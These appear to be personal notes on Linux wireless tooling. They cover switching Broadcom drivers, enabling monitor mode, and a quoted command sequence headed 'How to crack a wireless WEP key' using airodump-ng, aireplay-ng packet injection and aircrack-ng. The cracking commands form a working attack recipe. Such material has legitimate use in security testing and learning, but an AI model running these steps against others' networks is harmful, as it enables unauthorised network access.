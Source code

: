 # The official Broadcom STA/wl driver DOES NOT support monitor mode [...](http://askubuntu.com/questions/155528/why-cant-i-set-monitor-mode-with-the-wl-sta-driver-on-a-broadcom-wireless-card)

You are using the Broadcom STA (wl) official driver; this does not support monitor or promiscuous modes (regardless of whatever airmon-ng tells you.)
For this you need the b43 driver, which can be installed with sudo apt-get install b43-fwcutter firmware-b43-installer
You can unload one and load the other with sudo rmmod wl; sudo modprobe b43 (and vice versa).
Note that b43 and wl have their own advantages and disadvantages, so you may want to google before choosing one or the other.


# How to fix ‘ioctl(SIOCSIWMODE) failed: Device or resource busy ‘ problem. [...](https://taufanlubis.wordpress.com/2010/05/14/how-to-fix-ioctlsiocsiwmode-failed-device-or-resource-busy-problem/)
iwconfig wlan0

First turn of your wireless card. Type ‘sudo ifconfig wlan0 down‘.

Second, change your wireless card mode from ‘Managed’ to monitor. Type ‘sudo iwconfig wlan0 mode monitor‘.

Third, turn on again your wireless card. Type ‘sudo ifconfig wlan0 up‘.

Fourth, check the wireless card status. Type ‘sudo iwconfig wlan0‘.


# How to crack a wireless WEP key using AIR Crack [...](http://linuxconfig.org/how-to-crack-a-wireless-wep-key-using-air-crack)
	$ apt-get install aircrack-ng
	$ /sbin/iwconfig
	$ airmon-ng start wlan0
	$ airodump-ng wlan0
	$ airodump-ng -c 6 -w data-capture wlan0
	$ aireplay-ng -3 -b 00:11:95:9F:FD:F4 -h 00:13:02:30:FF:EC wlan0 
	$ aircrack-ng -z data-capture-01.cap
